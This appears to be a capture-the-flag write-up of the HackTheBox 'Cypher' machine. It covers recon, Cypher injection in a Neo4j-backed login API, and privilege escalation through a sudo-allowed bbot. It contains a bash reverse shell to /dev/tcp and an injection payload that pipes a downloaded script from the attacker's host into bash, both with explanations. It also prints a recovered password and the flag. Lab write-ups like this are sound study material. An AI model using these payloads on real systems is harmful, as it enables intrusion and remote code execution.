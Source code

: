 Let's scan the IP address `10.10.11.57`
```bash
sudo nmap -v -sC -sV 10.10.11.57 -oN nmap/initial
```
![image](images/20250405174615.png)
Let's go to the website
![image](images/20250405174710.png)
Let's scan the hidden directories of the website
```bash
ffuf -u http://cypher.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![image](images/20250408124013.png)
If we go to `cypher.htb/testing`, we will see a `.jar` file:
![image](images/20250405201805.png)
Download and unpack it
```bash
jar xf custom-apoc-extension-1.0-SNAPSHOT.jar
```
![image](images/20250405201950.png)
We can see that `Neo4j v5.23.0` is running on the site.

>[!info] Note
>**Neo4j** is an open source graph database management system implemented in Java.

If we go to `cypher.htb/api`, we will see the following:
![image](images/20250405174835.png)
Let's scan the hidden directories `cypher.htb/api/`:
```bash
ffuf -u http://cypher.htb/api/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![image](images/20250405175901.png)
If we go to the address `cypher.htb/api/auth`, we will see the following:
![image](images/20250405175038.png)
This method is not accepted. Let's intercept the request in Burp Suite and send it to `Repeater`
![image](images/20250405181910.png)
A `GET` request is sent. Let's change it to `POST`
![image](images/20250405181951.png)
<div style="page-break-after: always;"></div>
The code for the `cypher.htb/login` page contained the following:
```JavaScript
// TODO: don't store user accounts in neo4j
    function doLogin(e) {
      e.preventDefault();
      var username = $("#usernamefield").val();
      var password = $("#passwordfield").val();
      $.ajax({
        url: '/api/auth',
        type: 'POST',
        contentType: 'application/json',
        data: JSON.stringify({ username: username, password: password }),
        success: function (r) {
          window.location.replace("/demo");
        },
        error: function (r) {
          if (r.status == 401) {
            notify("Access denied");
          } else {
            notify(r.responseText);
          }
        }
      });
    }

    $("form").keypress(function (e) {
      if (e.keyCode == 13) {
        doLogin(e);
      }
    })

    $("#loginsubmit").click(doLogin);
```
Change `Content-Type` to `application/json` and add authentication parameters
```Request
{
  “username”: “admin”,
  “password”: “password”
}
```
![image](images/20250405184328.png)
We can see that this is the correct request, but the data is incorrect. Let's try applying an SQL injection
![image](images/20250405184420.png)
The `Python` file error was displayed
The following was found in the error:
![image](images/20250405184538.png)
It is clear that this is `Neo4j`, which executes `Cypher` queries, and that the SQL injection did not work in the SQL query.
Commenting in `Neo4j` works not through `--`, but through `//`. Let's try to throw a `reverse shell` through authorization in `API`. 
First, let's create a `Reverse Shell` and start the HTTP server
```bash
echo “/bin/bash -i >& /dev/tcp/10.10.14.180/4444 0>&1” > shell.sh
```
```bash
sudo python3 -m http.server 80
```
Next, insert the following code into `username`:
```bash
test' return h.value as a UNION CALL custom.getUrlStatusCode(\“cypher.com; curl 10.10.14.180/shell.sh|bash;#\”) YIELD statusCode AS a RETURN a;//
```
1. Closing the original query
- `test'` — closes the quotation marks in the original query:
```cypher
  MATCH (u:USER)-[:SECRET]->(h:SHA1) 
  WHERE u.name = ‘test’  <-- Closed here
  ```
2. Substituting the returned data:
- `return h.value as a` — returns the value `h.value` under the alias `a` to match the UNION structure.
3. UNION attack:
- `UNION` — combines the result of the original query with the result of a new subquery. 
  **Purpose:** To add arbitrary code to the original query.
4. Calling a dangerous function:
- `CALL custom.getUrlStatusCode(...)` — calls the custom function `getUrlStatusCode`, which probably performs HTTP requests.  
  **Vulnerability:** The function does not sanitize input data, allowing commands to be injected via `;`.
5. Injecting commands into the URL:
- `“cypher.com; curl 10.10.14.180/shell.sh|bash;#”`  
  **Breakdown:**
- `cypher.com` — legitimate part of the URL (to bypass possible checks).
  - `;` — command separator in shell.
  - `curl 10.10.14.180/shell.sh | bash` — downloads the `shell.sh` script from your server and executes it via `bash`.
  - `#` — comments out the rest of the URL (to avoid syntax errors).
6. Completing the query:
- `YIELD statusCode AS a RETURN a;//`
- `YIELD` and `RETURN` — correctly complete the Cypher query.
- `;//` — closes the query and comments out the rest of the original code.
![image](images/20250405203316.png)
There is a user `graphasm`. Let's see what he has in his home directory
![image](images/20250405205006.png)
```Password
cU4btyib.20xtCMCXkBmerhK
```
This password does not work for the user `neo4j`. Perhaps it will work for the user `graphasm`.
![image](images/20250405205831.png)
Let's check what commands it can execute with sudo
![image](images/20250405210112.png)
We can call the `BBOT` tool and execute commands associated with it. Let's see what flags it has:
```bash
graphasm@cypher:~$ /usr/local/bin/bbot -h
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Creating BBOT config at /home/graphasm/.config/bbot/bbot.yml
[INFO] Creating BBOT secrets at /home/graphasm/.config/bbot/secrets.yml
usage: bbot [-h] [-t TARGET [TARGET ...]] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]] [--strict-scope] [-p [PRESET ...]] [-c [CONFIG ...]] [-lp]
            [-m MODULE [MODULE ...]] [-l] [-lmo] [-em MODULE [MODULE ...]] [-f FLAG [FLAG ...]] [-lf] [-rf FLAG [FLAG ...]] [-ef FLAG [FLAG ...]] [--allow-deadly]
            [-n SCAN_NAME] [-v] [-d] [-s] [--force] [-y] [--dry-run] [--current-preset] [--current-preset-full] [-o DIR] [-om MODULE [MODULE ...]] [--json] [--brief]
            [--event-types EVENT_TYPES [EVENT_TYPES ...]] [--no-deps | --force-deps | --retry-deps | --ignore-failed-deps | --install-all-deps] [--version]
            [-H CUSTOM_HEADERS [CUSTOM_HEADERS ...]] [--custom-yara-rules CUSTOM_YARA_RULES]

Bighuge BLS OSINT Tool

options:
  -h, --help            show this help message and exit

Target:
  -t TARGET [TARGET ...], --targets TARGET [TARGET ...]
                        Targets to seed the scan
...
...
...
EXAMPLES

    Subdomains:
        bbot -t evilcorp.com -p subdomain-enum

    Subdomains (passive only):
        bbot -t evilcorp.com -p subdomain-enum -rf passive

    Subdomains + port scan + web screenshots:
        bbot -t evilcorp.com -p subdomain-enum -m portscan gowitness -n my_scan -o .

    Subdomains + basic web scan:
        bbot -t evilcorp.com -p subdomain-enum web-basic

    Web spider:
        bbot -t www.evilcorp.com -p spider -c web.spider_distance=2 web.spider_depth=2

    Everything everywhere all at once:
        bbot -t evilcorp.com -p kitchen-sink
```
There is a `-t` flag, to which we give a target for scanning. Let's try giving it the target `/root/root.txt`
```bash
sudo /usr/local/bin/bbot -t /root/root.txt
```
![image](images/20250408122418.png)
`BBOT` interpreted `/root/root.txt` as a file with targets. `BBOT` tried to read this file as a list of targets to scan (e.g., domains, IP addresses), but instead it got the contents of the `root.txt` file, which most likely looks like a hash (or a random string): `25bb48f1ea0967eed85814a347932f86`
It attempted to process this string as a DNS name `[DNS_NAME_UNRESOLVED] 25bb48f1ea0967eed85814a347932f86 TARGET`. Since the string is not a valid domain, BBOT marked it as unresolved but logged it.

